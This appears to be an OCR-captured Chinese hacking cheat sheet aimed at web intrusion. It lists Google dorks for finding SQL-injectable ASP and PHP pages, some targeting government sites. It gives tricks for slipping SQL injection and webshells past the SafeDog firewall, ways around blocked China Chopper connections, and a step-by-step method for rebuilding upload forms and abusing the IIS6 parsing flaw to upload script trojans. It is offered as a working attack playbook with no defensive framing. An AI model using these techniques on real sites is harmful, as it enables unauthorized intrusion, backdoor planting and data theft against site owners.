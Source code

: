 inurl:asp?id=

inurl:detail.php?

CompHonorBig.asp?id= 很不错的的一个搜索注入点

inurl:show.asp? 非常强大

site:www.yuming.com

inurl:articleshow.asp?articleid=数字

inurl:szwyadmin/login.asp

inurl:asp?id=1 intitle:政府

杭州 inurl:Article_Class2.asp?
 
 
### 0x12 安全狗
 
1.过注入

方法一：a.asp?aaa=&id=sql语句

方法二： a.asp?id=sql语句 里面把安全过滤的加个%l 比如： un%aion sel%aect 1,2,3,4 fr%aom admin

2.过大马被阻拦访问

方法一：上传一个大马 然后访问http://sss.com/dama.asp ; 访问后出现拦截。

那么解决方法 先将dama.asp改名dama.jpg上传，然后在同目录上传个文件da.asp 内容为： <!–#include file=”dama.jpg” –> 这样再访问da.asp 就不会被拦截了。

3.过菜刀连接一句话被拦截

方法一：不用菜刀连接一句话，用别的一句话连接端。

方法二：中转下连接菜刀，把过滤掉的词替换掉。
 
 
### 0x13 本地构造上传漏洞 

寻找程序上传漏洞，必须从上传页面的源文件入手，目标有两个：

1.filename (文件名称) 在上传页面中针对文件扩展名过滤不严，从而上传可执行的脚本木马。

2.filepath (文件路径) 在上传页面针对路径过滤不严，导致可以修改上传相对路径上传脚本木马。

当检测到一个上传页面，asp、asa后缀已经被过滤掉的时候，可以尝试抓包明小子或NC上传！

不行就利用本地上传漏洞构造上传！例如上传页面是：http://www.xx.com/upfile_other.asp

1.右键查看源文件，找到这段代码：<form name=”form1″ method=”past” action=”zwhua_upload1.asp” enctype=”multipart/form-data”>

把以上代码中actino处的路径补全！即：<form name=”form1″ method=”past” action=”http://www.xxx.com/zwhua_upload1.asp” enctype=”multipart/form-data”>

2.再找到这段代码：<input type=”hidden” name=”filepath” value=”uploadfile/”>

利用IIS6.0解析漏洞，把以上代码中value处的文件补全！即：<input type=”hidden” name=”filepath” value=”uploadfile/1.asa; “> 注意：冒号后面有空格！
